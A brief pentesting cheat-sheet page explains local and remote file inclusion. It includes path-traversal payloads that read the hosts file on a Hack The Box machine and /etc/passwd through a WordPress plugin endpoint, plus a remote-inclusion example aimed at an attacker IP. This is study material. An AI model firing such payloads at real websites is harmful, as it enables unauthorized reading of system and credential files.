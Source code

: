 ### LFI --> Local file inclusion

---

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

```linux
WINDOWS\System32\drivers\etc\hosts
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts // If doesn't return in error, LFI is possible
```

```bash
<URL>/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
```


RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote
file on the host using protocols like HTTP, FTP etc.

```linux
//10.10.14.6/somefile --> RFI
```

---

[LFI wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)

